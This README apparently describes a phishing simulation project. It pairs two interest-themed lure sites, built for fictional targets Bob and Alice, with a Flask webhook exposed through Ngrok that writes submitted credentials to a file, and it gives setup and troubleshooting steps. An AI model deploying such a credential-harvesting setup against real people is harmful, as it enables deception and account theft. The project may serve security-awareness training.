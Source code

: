 https://media1.tenor.com/m/XT94KL1M7qUAAAAd/workshopsfriend-meisteramwerk.gif



## Phishing Simulation Project

This project involves setting up themed websites for two fictional characters, Bob (dog lover) and Alice (car enthusiast), and capturing submitted credentials via a Flask webhook.


### Project Structure
```plaintext
Phishing.project/
├── bob_site/ (Dog-themed website)
├── alice_site/ (Car-themed website)
├── webhook_server/ (Flask server to capture data)
└── README.md
```

## **Setup Instructions**

### **1. Prerequisites**
- Python 3.6+
- Flask
- Ngrok


   ```
### Steps

1. **Run the Webhook Server**
   ```bash
   cd webhook_server
   python webhook.py
   ```

2. **Expose Local Server Using Ngrok**
   ```bash
   ngrok http 5000
   ```
   Update the form `action` in `index.html` with the Ngrok public URL:
   ```html
   <form action="http://your-ngrok-url/webhook" method="POST">
   ```

3. **Serve the Websites**
   ```bash
   cd bob_site
   python -m http.server 8080
   ```
   Visit `http://127.0.0.1:8080` in your browser.

4. **Test and Capture Credentials**
   Submit test credentials on the websites. Captured credentials will be saved in `credentials.txt`.


### **5. Test the Setup**

1. Open the website in a browser.
2. Enter test credentials and submit the form.
3. Check the `credentials.txt` file in the `webhook_server` directory for captured credentials.

---

## **Troubleshooting**

### Common Issues

#### 1. **404 Error on `/webhook` Route**
- Ensure the form’s `action` URL matches the Flask route (`/webhook`).
- Verify Flask is running and listening on port 5000.

#### 2. **`credentials.txt` Not Updated**
- Confirm `webhook.py` has permission to write to `credentials.txt`.
- Manually create an empty `credentials.txt` file in the `webhook_server` directory and ensure it is writable.

---

## **Project Components**

### Flask Webhook Server (`webhook.py`)
- Captures form data and writes credentials to `credentials.txt`.

### Bob’s and Alice’s Websites
- Custom HTML and CSS themes designed to appeal to each target.

---


